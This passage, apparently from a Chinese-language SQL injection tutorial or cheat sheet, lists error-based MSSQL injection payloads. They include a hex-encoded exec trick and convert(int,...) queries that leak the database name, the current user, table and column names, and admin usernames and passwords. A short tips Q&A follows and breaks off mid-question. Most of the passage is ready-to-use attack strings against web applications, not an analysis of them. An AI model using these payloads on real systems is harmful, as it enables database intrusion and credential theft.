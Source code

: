 sEt @s=0x73656c65637420636f6e7665727428696e742c404076657273696f6e29 //给@s赋值，为“select convert(int,@@version)”的十六进制编码

eXeC(@s) //调用函数exec()执行“@s”中的内容。

### **爆当前数据库**

```sql
select convert(int,db_name())
```

### **爆当前用户**
---------

```sql
select convert(int,User_Name())
```

### **爆表**
------

```sql
select convert(int,(select top 1 name from abc[数据库名].sys.all_objects where type=’U’ AND is_ms_shipped=0)) select convert(int,(select top 1 name from abc[数据库名].sys.all_objects where type=’U’ AND is_ms_shipped=0 and name not in (‘CMS_ArticleClass’)))
```

### **爆字段**
-------

```sql
select convert(int,(select top 1 COLUMN_NAME from abc[数据库名].information_schema.columns where TABLE_NAME=’CMS_Userinfo[表名]’)) select convert(int,(select top 1 COLUMN_NAME from abc[数据库名].information_schema.columns where TABLE_NAME=’CMS_Userinfo[表名]’ and COLUMN_NAME not in (‘id’)))
```

### **爆数据**
-------

```sql
select convert(int,(select top 1 username from CMS_Admin)) select convert(int,(select top 1 password from CMS_Admin))
```

## **SQL注入之你问我答小知识**

### **id-1，页面如果返回正确页面说明是有注入，那+1可以吗？**（www.test.com/xsn.php?id=12+1）

  

不行，因为加号在url里面是空格的意思。

  

### **你知道mysql里有几种注释方式吗？**
